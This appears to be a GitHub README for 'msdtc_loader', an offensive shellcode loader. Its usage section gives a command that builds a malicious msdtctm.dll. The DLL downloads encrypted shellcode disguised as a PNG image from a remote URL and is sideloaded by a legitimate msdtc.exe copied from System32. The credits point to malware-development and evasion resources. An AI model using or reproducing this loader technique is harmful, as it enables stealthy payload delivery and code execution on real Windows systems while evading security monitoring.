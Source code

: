 # msdtc_loader

Please note that this small project is already integrated with **sh4loader**
https://github.com/Sh4N4C1/sh4loader


## usage

```
cd ./msdtc_loader

python3 ./minish4loaderdll.py  -u http://$shellcode_download_url/icon.png -f ~/$shellcode.x64.bin -o $(pwd)/$encrypt_shellcode_output.png -pf $(pwd)/msdtctm.dll
```
Put msdtc.exe (from System32 folder) and msdtctm.dll together


This may be migrated to the sh4loader project in the future

## credits

https://vulnlab.com/

https://maldevacademy.com/

https://github.com/S3cur3Th1sSh1t/Caro-Kann

https://github.com/paranoidninja/Proxy-Function-Calls-For-ETwTI
